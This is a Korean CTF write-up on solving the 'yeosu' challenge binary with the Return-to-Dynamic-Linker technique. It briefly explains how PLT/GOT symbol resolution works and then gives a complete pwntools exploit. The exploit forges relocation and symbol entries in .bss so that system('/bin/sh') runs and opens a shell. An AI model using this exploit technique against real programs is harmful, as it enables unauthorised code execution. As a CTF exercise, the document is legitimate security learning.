




<h3>이 글은 사전 plt , got 이 어떤 원리로 되는지 알아야 합니다.</h3>

*https://bpsecblog.wordpress.com/2016/03/07/about_got_plt_1/*

<br>

RTDL 를 연습하기 위해 사이버가디언즈 5차때의 문제를 가져왓습니다~~

<br>

<br>

현장에서 풀때는 ssh로 접속하고 aslr도 안되어 있는 환경이어서 시스템주소 구하고 RET에 넣으면 되는 간단한 문제입니다.

__하지만__ 로컬에서는 RTDL 즉 __Return To Dynamic Linker__ 를 이용해야 합니다.

<br>

그래서 RTDL 연습할 겸 기법을 이용해 풀어보겠습니다

<br>

<br>



<br>

<br>

​    Arch:     i386-32-little

​    RELRO:    Partial RELRO

​    Stack:    No canary found

​    NX:       NX enabled

​    PIE:      No PIE (0x8048000)

<br>

<br>

바이너리는 간단합니다. 입력 받고 끝입니다.

RTDL은 FAKE_ELF32_SYMBOL 과 DYNSTR , DYNSYM , JMPREL , RELOC_OFFSET를 이용해야 합니다.

<br>

간단하게 설명하자면



<br>

위 사진에 보이는 read@plt에서 push 하는 값이 RELOC_OFFSET 입니다.



<br>

이 RELOC_OFFSET를 이용해서 해당 read@plt의 JMPREL를 계산하고 

또 이걸 이용해서 밑 사진처럼 ELF32_SYMBOL에 있는 문자열을 함수 이름을 찾습니다.

 

<br>

마지막으로 이 함수 이름을 통해서 라이브러리에서 함수를 불러오고 read@got에 

저장하는 원리입니다.

<br>

그럼 여기서 문자열만 조작하면 원하는 함수를 호출할 수 있다~~

<br>

yeosu 익스플로잇 코드

```python
from pwn import *

p = process("./yeosu")
#p = remote("localhost",8888)
e = ELF("./yeosu")

main = 0x804847B
pr = 0x0804851b
ppr = 0x0804851a
pppr = 0x08048519

dynstr = 0x0804823c
dynsym  = 0x080481cc
dynamic = 0x08048320
jmprel = 0x80482d0

fake_sym = e.bss()+24

fake_ELF32_SYM_addr = e.bss()+80 -  dynstr

string = "system\x00"

#fake reloc offset
rel_addr = e.bss()+100
reloc_offset = rel_addr - jmprel 

#fake geteuid ELF 32_REL
fake_relst  = p32(e.got["geteuid"])
fake_relst += p32(0x1e707) #fake_sym - dynsym 

#fake ELF32_SYM
fake_ELF32_SYM = p32(fake_ELF32_SYM_addr)

#exploit


binsh = "A"*0x26
binsh += p32(e.plt["read"])
binsh += p32(pppr)
binsh += p32(0)
binsh += p32(e.bss()+1000)
binsh += p32(0x100)
binsh += p32(main)


#symtab
payload = "A"*0x26
payload += p32(e.plt["read"])
payload += p32(pppr)
payload += p32(0)
payload += p32(fake_sym)
payload += p32(0x100)


#system
payload += p32(e.plt["read"])
payload += p32(pppr)
payload += p32(0)
payload += p32(e.bss()+80)
payload += p32(0x100)
payload += p32(main)

payload2 = "A"*0x26

payload2 += p32(e.plt["read"])
payload2 += p32(pppr)
payload2 += p32(0)
payload2 += p32(rel_addr)
payload2 += p32(0x100)

payload2 += p32(dynamic)
payload2 += p32(reloc_offset)
payload2 += p32(main)
payload2 += p32(e.bss()+1000)

assert(len(payload)<=0x64)
assert(len(payload2)<=0x64)

#raw_input()
p.send(binsh)
sleep(0.3)
p.send("/bin/sh\x00")
sleep(0.3)
p.send(payload)
sleep(0.3)
p.send(fake_ELF32_SYM)
sleep(0.3)
p.send("system\x00")
sleep(0.3)
p.sendline(payload2)
sleep(0.3)
p.sendline(fake_relst)

p.interactive()
```

